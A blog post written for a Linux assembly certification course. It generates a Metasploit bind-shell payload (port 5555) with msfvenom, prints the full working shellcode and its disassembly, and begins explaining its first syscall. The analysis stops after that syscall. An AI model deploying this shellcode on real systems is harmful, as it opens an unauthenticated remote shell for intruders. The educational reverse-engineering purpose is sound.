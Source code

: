 ```yaml
---
layout: single
title: SLAE Assignment 5 -- MSF Analysis
date: 2019-5-12
classes: wide
header:
  teaser: /assets/images/SLAE/SLAE.jpg
tags:
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - MSF
  - msfvenom
--- 
```

![](/assets/images/SLAE/SLAE.jpg)

## Introduction

The 5th assignment for SLAE is to analyze 3 msfvenom payloads. For this excercise, I thought I would revisit some semi-familiar code in the `linux/x86/shell_bind_tcp`, `linux/x86/shell_reverse_tcp`, and `linux/x86/exec` payloads. My primary reason for doing this is because we've written similar code already and I want to see how the pros do it at Metasploit and see if we can pick up some new tricks/efficiencies. 

## Analyzing Shellcode #1 (`linux/x86/shell_bind_tcp`)

The first thing we need to do is generate the shellcode that corresponds with this MSF payload. We'll need to add arguments as well, such as designate a listening port. We can do this with the following command: `msfvenom -p linux/x86/shell_bind_tcp lport=5555 -f c`

```terminal_session
root@kali:~# msfvenom -p linux/x86/shell_bind_tcp lport=5555 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x15\xb3\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

Now that we have our shellcode, we can feed it to `ndisasm`, which comes stock on Kali Linux, with the following command and get some assembly out of it!

```terminal_session
root@kali:~# echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x15\xb3\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u -
```
After running this command, we get the following output:

```terminal_session
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  5B                pop ebx
00000010  5E                pop esi
00000011  52                push edx
00000012  68020015B3        push dword 0xb3150002
00000017  6A10              push byte +0x10
00000019  51                push ecx
0000001A  50                push eax
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
00000020  CD80              int 0x80
00000022  894104            mov [ecx+0x4],eax
00000025  B304              mov bl,0x4
00000027  B066              mov al,0x66
00000029  CD80              int 0x80
0000002B  43                inc ebx
0000002C  B066              mov al,0x66
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```

This output is very nice, but it's not quite what we're accustomed to. Let's use `awk` to get just the assembly instructions.

`echo -ne "<SHELLCODE>" | ndisasm -u - | awk '{ print $3,$4,$5 }'`

Now we get just the assembly to print to the terminal and we can throw this into a NASM sytnax highlighter.

```nasm
xor ebx,ebx 
mul ebx 
push ebx 
inc ebx 
push ebx 
push byte +0x2
mov ecx,esp 
mov al,0x66 
int 0x80 
pop ebx 
pop esi 
push edx 
push dword 0xb3150002
push byte +0x10
push ecx 
push eax 
mov ecx,esp 
push byte +0x66
pop eax 
int 0x80 
mov [ecx+0x4],eax 
mov bl,0x4 
mov al,0x66 
int 0x80 
inc ebx 
mov al,0x66 
int 0x80 
xchg eax,ebx 
pop ecx 
push byte +0x3f
pop eax 
int 0x80 
dec ecx 
jns 0x32 
push dword 0x68732f2f
push dword 0x6e69622f
mov ebx,esp 
push eax 
push ebx 
mov ecx,esp 
mov al,0xb 
int 0x80
```

Let's break this down and see how it differs from our bind shell that we wrote. 

#### Syscall 1 `socketcall()`

```nasm
xor ebx,ebx
mul ebx
push ebx
inc ebx
push ebx
push byte
mov ecx,esp
mov al,0x66
int 0x80
```

One thing that's different is the way they're clearing the registers. By using `mul` which has storage destinations of `eax` and `edx`, they're able to save a line of code by not having to specify `xor register, register` twice. 



## Github

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1458

You can find all of the code used in this blog post [here.](https://github.com/h0mbre/SLAE/tree/master/Assignment4)




